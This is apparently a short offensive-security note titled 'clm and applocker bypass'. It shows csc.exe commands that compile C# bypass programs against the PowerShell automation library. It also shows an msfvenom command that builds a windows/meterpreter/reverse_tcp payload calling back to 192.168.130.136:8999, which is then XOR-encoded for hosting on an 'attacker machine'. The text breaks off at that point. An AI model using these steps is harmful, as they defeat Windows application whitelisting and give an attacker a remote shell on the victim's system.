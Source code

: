 # clm and applocker bypass
```bash
c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:"C:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll" C:\users\dhanush\Desktop\bypassclm.cs
C:\Users\dhanush\Desktop>c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe c:\users\dhanush\Desktop\program3.cs
```

# ** HOST it in the Linux attacker machine**

# ✔️ ** use only windows/meterpreter/reverse_tcp payload in this ,x64 payloads dont work with InstallUtil**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.130.136 LPORT=8999 -f raw > p.bin
python3 xorenc.py pa.bin
